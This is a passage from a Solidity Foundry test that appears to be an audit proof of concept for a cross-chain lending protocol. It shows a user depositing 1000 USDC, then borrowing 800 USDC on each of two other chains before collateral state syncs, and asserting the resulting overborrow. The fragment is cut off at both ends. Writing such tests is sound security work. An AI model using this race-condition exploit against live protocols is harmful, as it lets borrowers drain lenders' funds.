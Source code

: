 ```solidity
            address(this),
            address(lendStorage),
            address(oracle),
            address(0),
            payable(coreRouterAddr),
            CHAIN_C_EID
        );
        
        // Fund user with collateral
        deal(USDC, user, 1000e6); // 1000 USDC
        vm.prank(user);
        IERC20(USDC).approve(address(lendStorage), type(uint256).max);
    }

    function test_crossChainOverborrow() public {
        // Step 1: Deposit collateral on Chain A
        vm.prank(user);
        lendStorage.deposit(user, USDC, 1000e6); // 1000 USDC
        
        // Pre-borrow collateral check
        (, uint256 collateralBefore) = lendStorage.getHypotheticalAccountLiquidityCollateral(
            user, 
            LToken(lTokenA),
            0,
            0
        );
        console.log("Initial collateral value:", collateralBefore / 1e18, "USD");
        
        // Step 2: Borrow 800 USDC on Chain B
        vm.prank(user);
        routerA.borrowCrossChain(800e6, USDC, CHAIN_B_EID);
        
        // Step 3: BEFORE updating Chain A state, borrow 800 USDC on Chain C
        vm.prank(user);
        routerA.borrowCrossChain(800e6, USDC, CHAIN_C_EID);
        
        // Simulate cross-chain messaging
        _simulateBorrowExecution(CHAIN_B_EID, 800e6);
        _simulateBorrowExecution(CHAIN_C_EID, 800e6);
        
        // Step 4: Verify overborrowed state
        LendStorage.Borrow[] memory borrows = lendStorage.getCrossChainBorrows(user, USDC);
        uint256 totalBorrowed;
        for (uint256 i = 0; i < borrows.length; i++) {
            totalBorrowed += borrows[i].principle;
        }
        
        console.log("Total borrowed:", totalBorrowed / 1e6, "USDC");
        console.log("Total collateral:", collateralBefore / 1e18, "USD");
        
        // Critical assertions
        assertEq(borrows.length, 2, "Should have borrows on two chains");
        assertEq(totalBorrowed, 1600e6, "Total borrowed should be 1600 USDC");
        assertLt(collateralBefore, totalBorrowed, "Borrowed amount exceeds collateral");
        assertTrue(totalBorrowed > collateralBefore, "Overborrowing occurred");
    }

    function _simulateBorrowExecution(uint32 destEid, uint256 amount) internal {
        // Simulate borrow execution on destination chain
        vm.prank(address(routerA));
        lendStorage.addCrossChainBorrow(
            user,
            USDC,
```